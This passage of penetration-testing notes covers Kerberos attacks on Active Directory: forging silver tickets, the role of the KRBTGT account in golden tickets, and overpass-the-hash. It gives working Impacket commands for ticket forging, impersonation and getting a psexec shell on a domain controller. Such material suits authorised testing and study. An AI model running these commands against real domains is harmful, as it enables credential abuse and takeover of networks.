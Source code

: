 These are more discreet and only works for with Pass-the-ticket to **access that specific service**.

{% code overflow="wrap" fullWidth="true" %}
```bash
https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/silver

getST.py        ///    smbclient ... -k
# Transfer ticket.kirbi to the attacking machine and use it to authenticate w/o valid user-pass

# Find the domain SID
lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0

# with an NT hash
ticketer.py -nthash "$NT_HASH" -domain-sid "$DomainSID" -domain "$DOMAIN" -spn "$SPN" "USER_TO_IMPERSONATE"
export KRB5CCNAME=XXX.ccache
psexec.py -k -n dom.local/"USER_TO_IMPERSONATE"@DC-Company cmd.exe
```
{% endcode %}

{% hint style="info" %}
If we face a DC and the service we want to access is internal (port forwarding needed), we need to change /etc/hosts of that domain.com dc.domain.com to point our localhost (where the service is being forwarded to be used).
{% endhint %}

A specific use scenario for a silver ticket would be that you want to access the domain's SQL server however your current compromised user does not have access to that server. You can find an accessible service account to get a foothold with by kerberoasting that service, you can then dump the service hash and then impersonate their TGT in order to request a service ticket for the SQL service from the KDC allowing you access to the domain's SQL server.

### KRBTGT&#x20;

In order to fully understand how these attacks work you need to understand what the difference between a KRBTGT and a TGT is. A KRBTGT is the service account for the KDC this is the Key Distribution Center that issues all of the tickets to the clients. If you impersonate this account and create a golden ticket form the **KRBTGT** you give yourself the ability to **create a service ticket for anything** you want. A **TGT** is a **ticket to a service** account issued by the KDC and **can only access that service** the TGT is from like the SQLService ticket.

### Overpass the Hash (From NTLM hash to Kerberos ticket)

{% code overflow="wrap" fullWidth="true" %}
```bash
To convert an NTLM hash to a Kerberos ticket, you can perform an overpass-the-hash attack.

https://orange-cyberdefense.github.io/ocd-mindmaps/img/pentest_ad_dark_2023_02.svg
https://www.thehacker.recipes/ad/movement/kerberos/ptk

└─$ impacket-getTGT domain.com/"user" -hashes :7dc430b95e17ed6f817f69366f35be27
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in user.ccache
```
{% endcode %}
